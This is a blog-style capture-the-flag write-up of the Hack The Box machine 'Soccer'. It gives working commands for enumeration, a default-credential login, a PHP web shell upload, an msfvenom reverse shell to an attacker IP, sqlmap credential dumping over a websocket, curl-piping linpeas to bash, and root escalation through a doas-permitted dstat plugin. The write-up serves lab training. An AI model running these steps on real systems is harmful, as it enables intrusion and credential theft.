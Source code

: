 ```yaml
---
layout: post
title: "Soccer"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate all the ports with rustcan and nmap:

```bash
rustscan -a 10.129.126.18

nmap -sC -sV -p22,80,9091 10.129.126.185 -oA nmap/soccer

result:
port 80 nginx 1.18.0
port 22
port 9091 xmltec-xmlmail
```

Add domain soccer.htb to /etc/hosts

Let’s enumerate subdomains and subdirectories

```bash
ffuf -u http://soccer.htb -H "Host: FUZZ.soccer.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 6

gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![image.png]({{ site.baseurl }}/assets/soccer/image.png)

In burp we look at the GET response from the server we find the version of the tiny explorer. Now let’s research some exploit. We find RCE  exploit: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

Let’s first try to login with default credentials. We search on Google default tiny manager credentials and result in admin:admin@123. We are in

We clone the exploit to our host and exploit the target:

```bash
./exploit.sh http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
python3 tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
```

The exploit doesn’t seem to be working. Let’s just do it manually. Click upload and upload phpbash.php.

```bash
Navigating to the uploads folder ([http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload)), we add phpbash.php. We visit http://soccer.htb/tiny/uploads/phpbash.php
```

We have access to user www-data

Let’s upload a reverse shell for stable connection:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.118 LPORT=443 -f raw > shell.php

#edit the file so the file start with <?php and end with ?>
```

```bash
#start metasploit for listener
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.14.118
set LPORT 443
run

#When we get the shell:
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let’s start trying to find credentials in config files etc

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

We know the server uses nginx for the web server, let’s check that

```bash
In the /etc/nginx/sites-available folder we find another site:

$ ls -al
ls -al
total 16
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
-rw-r--r-- 1 root root  442 Dec  1  2022 default
-rw-r--r-- 1 root root  332 Nov 17  2022 soc-player.htb

#and catting it out:
soc-player.soccer.htb
```

Let’s add that to /etc/hosts

Let’s enumerate that

```bash
gobuster dir -u http://soc-player.soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

There is a ticket searching function in /check let’s try to SQL inject it.

Using burp to capture the traffic when inputting a ticket number and pressing enter, the website communicates with a web socket at ws://soc-player.soccer.htb:9091. Let’s use sqlmap to test different injection techniques

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5    #asterisks tells sqlmap where to inject, risk 3 and level 5 the highest

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 --dbs

```

![image.png]({{ site.baseurl }}/assets/soccer/image%201.png)

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db --tables

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts --columns

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts -C email,id,password,username --dump
```

We have found a user credential

Let’s login as user player. Not much is on the website, let’s try to ssh. We are in.

## Linepeas

- in the dir where [linpeas.sh](http://linpeas.sh) is, start a python server

```bash
python3 -m http.server 1234
```

- then on the target server connect to it and pipe it to bash

```bash
curl 10.10.14.118:1234/linpeas.sh | bash
```

- Alwasy check /usr/local, or /usr/local/bin. This is where admin put binaries specifically
- also check special permssions other than sudo

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- Now try and find config for that binary

```bash
find / 2>/dev/null | grep doas

result:
/usr/local/etc/doas.conf

cat /usr/local/etc/doas.conf

result:
permit nopass player as root cmd /usr/bin/dstat
```

Now we go to GTFObin and dstat to see how we can escalate our privilege to root

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py

doas /usr/bin/dstat --xxx  #now we have root shell
whoami

af395ba322ed65992418eb6f9fb587a6
```